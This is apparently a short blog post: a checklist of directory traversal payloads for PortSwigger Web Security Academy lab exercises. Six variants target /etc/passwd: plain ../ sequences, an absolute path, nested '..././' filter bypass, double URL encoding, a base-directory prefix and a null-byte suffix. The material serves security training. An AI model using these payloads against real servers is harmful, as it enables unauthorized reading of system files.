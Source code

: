 ```yaml
---
layout: post
title:  "PortSwigger - Directory Traversal - Mystery Labs Checklist"
date:   2024-06-10 00:00
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [directory-traversal]
categories: [PortSwigger]
---
```


## 1. Use basic directory traversal:
```
../../../../etc/passwd
```

## 2. Use absolute path:
```
/etc/passwd
```

## 3. Use recursion: 
```
..././..././..././..././etc/passwd
```

## 4. Use double url encoding
```
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34 
```

## 5. Use start of path:
```
/var/www/images/../../../../etc/passwd
```

## 6. Use null byte:
```
../../../etc/passwd%00123.png
```
<hr/>